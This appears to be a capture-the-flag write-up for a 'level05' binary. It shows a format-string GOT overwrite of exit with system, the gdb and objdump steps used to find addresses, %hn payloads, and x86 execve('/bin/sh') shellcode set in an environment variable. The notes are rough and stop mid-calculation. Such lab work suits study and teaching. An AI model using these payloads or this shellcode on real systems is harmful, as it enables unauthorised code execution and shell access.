 #

## Context

fgets secure

printf insecure

exit() ? overwrtei got section

## Ret2libc
 
find exit address, overwrite with system call, add exit address, add /bin/sh address

exit address

objdump -R ./level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit

info functions system
0xf7e6aed0  system

info proc mappings
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.

exit | system | "/bin/sh"
--- | --- | ---
0xf7e5eb70 | 0xf7e6aed0 | 0xf7f897ec

find the buffer place to overwrite exit func

./level05 
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
aaaa64.f7fcfac0.0.0.0.0.ffffffff.ffffd674.f7fdb000.61616161.[...]

buffer is the 10th address on the stack

stack need to be:

stack |
--- |
exit (point to system)
random address (4 byte)
"/bin/sh"

Payload

exit address + 4byte random + /bin/sh + things to overwrite exit address

### First overwrite exit with system address
0x080497e0 exti
0xf7e6aed0 system

f7d6 = 63462
aed0 = 44752
63462 - 44752 = 18710

r < <(python2.7 -c 'import sys; sys.stdout.write(b"\xe0\x97\x04\x08" + b"\xe2\x97\x04\x08" + b"%44744x" + b"%10$hn" + b"%18710x" + b"%11$hn")')

x/a 0x080497e0
0x80497e0 <exit@got.plt>:	0xf7e6aed0

### Build final exploit

export SHELLCODE=$(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 0xffff + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

0xfffee2c0

fffe = 65534
e2c0 = 58048